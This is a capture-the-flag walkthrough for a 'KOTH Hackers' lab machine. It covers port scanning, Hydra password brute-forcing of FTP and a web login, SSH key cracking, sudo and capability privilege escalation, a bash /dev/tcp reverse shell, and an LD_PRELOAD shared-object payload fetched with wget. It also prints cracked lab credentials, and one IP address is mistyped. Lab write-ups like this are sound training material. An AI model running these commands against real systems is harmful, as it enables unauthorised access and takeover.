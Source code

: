 # KOTH HACKERS<br />

-------------
## IP: `10.10.228.111`<br />

----------------------
### Open Ports Via Nmap -<br />

`nmap -sC -sV 10.10.228.1115`

```
21
22
80
9999
```

![image](images/nmap.png)

----------------------
#### Subdirectories Via Gobuster -<br />

```
/news
/contact
/img
/staff
/backdoor
```

![image](images/gobuster.png)

----------------------
##### Login via ftp `anonymously` - <br />

> We'll get a note, which will give us usernames to brute-force (:

![image](images/anon.png)


> When we cat that note, we get-<br/>

![image](images/note.png)

------------------------
##### Gcrawford Credentials Via Hydra -<br/>

```
hydra -l gcrawford -P /usr/share/wordlists/rockyou.txt 10.10.228.111 ftp
```
![image](images/gcrawford.png)


username: gcrawford<br />
password: PAOLA<br />

> Login via ftp using these creds

![image](images/gcrawftp.png)

`We got id_rsa of gcrawford user from cd /.ssh/id_rsa`

> Since it's a protected private key we need to crack the passphrase for `id_rsa` of gcrawford using JohnTheRipper<br />

`ssh2john id_rsa > forjohn`

`john forjohn --wordlist=/usr/share/wordlists/rockyou.txt`

> We Got The Pass For Private Key

![image](images/john.png)


```
id_rsa:25192519 
```

`login via gcrawford using id_rsa`

```
ssh -i id_rsa gcrawford@10.10.228.111
```

##### privilege escalation of `gcrawford` user cuz of sudo ability over `nano`<br/>

`sudo -l`

We can see nano's [Gtfo-Bins](https://gtfobins.github.io/gtfobins/nano/)

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

------------------------
##### Rcampbell Credentials Via Hydra -<br />

```
hydra -l rcampbell -P /usr/share/wordlists/rockyou.txt 10.10.228.111 ftp
``` 

![image](images/rcampbell.png)

username: rcampbell<br />
password: molly<br />

###### Login via ftp using rcampbell credentials -<br/>

`ftp 10.10.228.111`

![image](images/ftp.png)

##### Login via ssh with rcampbell with the same password of this user for ftp and search for `capabilities`<br />

```
getcap -r / 2>/dev/null
```
![image](images/capabilities.png)


> Now to get root, we can do -<br/>

```
python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```
![image](images/rcamp.png)

##### Crack the password for [backdoor](http://10.10.228.111/backdoor)<br />

![image](images/backdoor.png)


```
hydra -l plague -P /usr/share/wordlists/rockyou.txt 10.10.228.111 http-post-form "/api/login:username=^USER^&password=^PASS^:Incorrect"
```
![image](images/plague.png)


username: plague<br />
password: twentyone<br />

> start a net-cat listener on your machine, and we can get a rev-shell using -<br/>

`nc -lnvp <port>`<br/>

```
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```
![image](images/bash.png) ![image](images/nc.png)


##### You can get a rev shell with user `production` logged in and can achieve privilage escalation using this c code -<br />

Check out this blog for more on it [ld_preload-privesc](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/)
```c

```

![image](images/shell.png)

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`<br/>

![image](images/gcc.png)

> start a python server and transfer the shell.so to machine<br/>

`python3 -m http.server 80`<br/>

`wget <ip>/shell.so`<br/>

`chmod +x shell.so`<br/>

```
sudo openssl req -engine ./shell.so
```
![image](images/openssl.png)